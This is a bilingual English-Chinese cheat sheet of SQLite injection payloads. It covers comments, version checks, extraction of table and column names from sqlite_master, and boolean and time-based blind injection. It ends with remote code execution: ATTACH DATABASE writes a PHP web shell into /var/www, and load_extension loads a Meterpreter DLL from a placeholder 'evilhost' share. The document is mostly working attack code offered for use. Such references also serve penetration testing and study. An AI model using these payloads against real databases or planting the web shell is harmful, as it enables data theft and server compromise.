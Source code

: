 # SQLite注入

## SQLite comments

SQLite注释

```sql
--
/**/
```

## SQLite version

SQLite版本

```sql
select sqlite_version();
```

## Integer/String based - Extract table name

基于整数/字符串 - 提取表名

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

使用趋近X+1偏移X，来提取所有表

## Integer/String based - Extract column name

基于整数/字符串 - 提取列名

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

为了获得较为干净的输出

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables

bool注入 - 获得表数

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

bool注入 - 枚举表名

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

bool注入 - 提取信息

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based

基于时间

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database

使用SQLite命令行执行远程命令 - 附加数据库

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension

使用SQLite命令行执行远程命令 - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled

Note:默认该组件是处于禁用状态的

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)